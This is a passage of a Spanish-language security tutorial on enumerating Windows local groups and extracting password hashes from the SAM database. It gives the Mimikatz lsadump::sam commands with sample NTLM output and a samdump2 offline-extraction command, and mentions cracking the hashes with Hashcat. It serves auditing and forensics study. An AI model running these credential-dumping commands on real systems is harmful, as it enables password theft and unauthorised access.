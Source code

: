 
#### 🔸 2. Enumerar miembros de un grupo

```cmd
net localgroup Administradores
```

---

#### 🔸 3. Acceder directamente a la SAM (extrayendo hashes)

Aquí ya entramos al nivel de **post-explotación** o **análisis forense**.

##### ✅ Opción 1: Usando **Mimikatz**

Mimikatz permite extraer hashes de contraseñas de la SAM.

1. Abre Mimikatz como admin
2. Ejecuta:

```txt
privilege::debug
token::elevate
lsadump::sam
```

Esto devuelve:

- Usuarios locales
- Hashes de contraseñas
- RID (Relative IDs)

📌 Ejemplo de salida:

```
RID 500 - Administrator
LM : aad3b435b51404eeaad3b435b51404ee
NTLM : 31d6cfe0d16ae931b73c59d7e0c089c0
```

---

##### ✅ Opción 2: Desde otra máquina (extracción offline)

Si tienes acceso al disco de otra máquina (por ejemplo, montado desde Linux o en análisis forense), puedes usar:

```bash
samdump2 SYSTEM SAM
```

Esto extrae hashes directamente del archivo `SAM` usando también el `SYSTEM`, porque este contiene la clave de cifrado.

---

### 📌 ¿Para qué sirve enumerar la SAM?

- Auditar qué usuarios existen en una máquina
- Detectar cuentas inseguras (como `usuario: usuario`)
- Obtener hashes para ataques de contraseña offline (como **crackearlos** con Hashcat)
- Saber quién tiene privilegios de administrador
- Detectar cuentas ocultas o sospechosas

---